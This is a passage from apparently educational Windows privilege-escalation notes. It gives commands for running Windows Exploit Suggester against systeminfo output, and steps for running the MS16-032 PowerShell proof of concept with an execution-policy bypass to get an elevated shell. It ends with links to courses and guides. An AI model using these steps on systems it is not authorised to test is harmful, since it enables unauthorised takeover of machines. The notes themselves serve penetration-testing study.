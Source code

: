  - You should get an elevated shell

### Windows Desktop 7

- Gather `systeminfo` and use [windows exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
  - `python2.7 windows-exploit-suggester.py --update` this will dl a database file in xls format that you can use
  - `python2.7 windows-exploit-suggester.py --database 2022-04-30-mssb.xls --systeminfo systeminfo`
- Example of MS16-032 with this [poc](https://www.exploit-db.com/exploits/39719)
  - In Powershell `Set-ExecutionPolicy bypass -scope process`
  - `Import-Module .\exploit.ps1`
  - `Invoke-MS16-032`
  - We will get an elevated shell

## Resources

{% embed url="https://academy.tcm-sec.com/p/windows-privilege-escalation-for-beginners" %} TCM Security Academy - Windows Privilege Escalation {% endembed %}  
{% embed url="https://tryhackme.com/room/windowsprivescarena" %} Windows privesc arena by TCM on TryHackMe {% endembed %}
{% embed url="https://www.fuzzysecurity.com/tutorials/16.html" %} Windows privesc on Fuzzy Security{% endembed %}  
{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md" %} Windows privesc on PayloadsAllTheThings{% endembed %}  
{% embed url="https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/" %} Windows privesc on Absolomb{% endembed %}  
{% embed url="https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html" %} Windows privesc Sushant 747{% endembed %}  
{% embed url="https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources" %} Windows-Privilege-Escalation-Resources - TCM Course Resources - Gr1mmie {% endembed %}  
{% embed url="https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation" %} Windows PrivEsc Checklist - Hacktricks {% endembed %}  
{% embed url="https://github.com/gtworek/Priv2Admin" %} Priv2Admin {% endembed %}  
{% embed url="https://www.leeholmes.com/adjusting-token-privileges-in-powershell/" %} ADJUSTING TOKEN PRIVILEGES IN POWERSHELL - LEE HOLMES {% endembed %}  
{% embed url="https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77" %} Enable All Token Privileges - Mark Mo{% endembed %}  
{% embed url="https://adsecurity.org/?p=4064" %} From DNSAdmins to Domain Admin, When DNSAdmins is More than Just DNS Administration{% endembed %}  
{% embed url="https://github.com/hfiref0x/UACME" %} Defeating Windows User Account Control by abusing built-in Windows AutoElevate backdoor - hfiref0x {% endembed %}  

